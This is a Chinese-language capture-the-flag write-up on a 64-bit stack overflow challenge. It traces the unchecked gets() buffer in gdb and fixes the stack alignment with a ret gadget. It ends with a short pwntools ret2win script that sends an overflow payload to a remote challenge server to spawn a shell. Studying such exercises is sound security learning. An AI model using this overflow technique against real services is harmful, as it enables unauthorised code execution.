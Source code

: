 用 `file` 查看一下文件的基础信息
![[Pasted image 20240414220747.png]]
64 位的文件
用 `checksec` 检查一下保护措施
![[Pasted image 20240414220824.png]]
只开启了 NX 保护
直接 `gdb` 调试，`start` 后直接用 `layout asm` 看汇编代码。可以直接看到 `main` 函数的汇编代码
![[Pasted image 20240414221007.png]]
前三个都无关紧要，主要关注 `0x4006fc` 之后的代码。
`call 0x400560` 调用 `puts` 函数，参数为 `rdi` 处的内容，即 `0x4007a7` 处存储的内容。
用 `x/s 0x4007a7` 查看字符串
![[Pasted image 20240414221243.png]]

`call 0x400580` 调用 `gets` 函数，前三行是处理它的参数。`gets` 函数没有限制输入的数量，可以看到栈空间的大小为 0x30，即只需覆盖 0x38 即可覆盖整个栈

接着在附近（准确来说在上面）找到 `system` 函数
![[Pasted image 20240414221028.png]]
用 `x/s 0x4007a4` 查看字符串（如果不是 `\bin\sh` 这样的话还要构造字符串）
![[Pasted image 20240414221154.png]]
直接调用 `try_to_call_me` 函数即可解决（但是函数名称就很明显了吧）
但是需要注意的是这里需要平衡堆栈（关于栈对齐可以看这个[栈对齐](https://zhuanlan.zhihu.com/p/611961995)）
如果直接用这个脚本
![[Pasted image 20240414222719.png]]
`pwntools` 会报错 `Got EOF while sending in interactive`
![[Pasted image 20240414222734.png]]
也即需要满足 16 Byte，而目标函数 `try_to_call_me` 地址占据 8 字节，前面输入了 0x30 个输入，即 48 字节，故还需要 8 字节填充 payload，所以添加一个 `ret` 汇编代码的地址（占 8 字节）
所以最终脚本为
```
from pwn import *
r = remote("47.99.166.89", 10267)
p1 = b'a' * 0x30 + b'b' * 8 + p64(0x40071f) + p64(0x00400687)
r.sendline(p1)
r.interactive()
```
即可获得 `flag`
![[Pasted image 20240414223536.png]]